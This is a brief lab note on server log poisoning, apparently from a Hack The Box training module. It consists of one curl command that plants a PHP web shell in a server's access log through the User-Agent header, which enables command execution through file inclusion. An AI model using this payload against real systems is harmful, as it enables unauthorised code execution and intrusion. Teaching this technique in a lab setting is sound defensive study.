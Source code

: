 ```yaml
---
title: Log Poisoning
---
```


## Server Log Poisoning

```
Jerad Rodgers@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

<img width="989" height="232" src="/assets/images/rfi_log-poison.png"/>
